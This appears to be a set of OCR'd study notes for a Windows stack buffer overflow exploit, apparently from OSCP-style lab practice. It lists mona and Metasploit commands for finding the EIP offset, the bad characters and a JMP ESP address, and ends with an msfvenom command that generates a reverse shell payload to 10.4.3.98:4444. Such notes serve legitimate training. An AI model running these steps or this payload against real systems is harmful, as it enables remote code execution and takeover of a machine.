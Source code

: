 ### Find EIP and offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l crashbytes+400

!mona config -set workingfolder c:\mona

Log data, item 19
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x6f43396e (offset 1978)

### Bad chars
#### Round 1
ESP 018AFA30

!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
!mona compare -f C:\mona\oscp\bytearray.bin -a 018AFA30


07 08 2e 2f a0 a1

!mona bytearray -b "\x00\x07\x08\x2e\x2f\xa0\xa1"
!mona bytearray -b "\x00\x07\x2e\xa0"


#### Round 2
ESP 0198FA30

!mona compare -f C:\mona\oscp\bytearray.bin -a 0198FA30
Unmodified got it

### Finding a Jump Point
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

625011AF
\xaf\x11\x50\x62

### Generate Payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.3.98 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c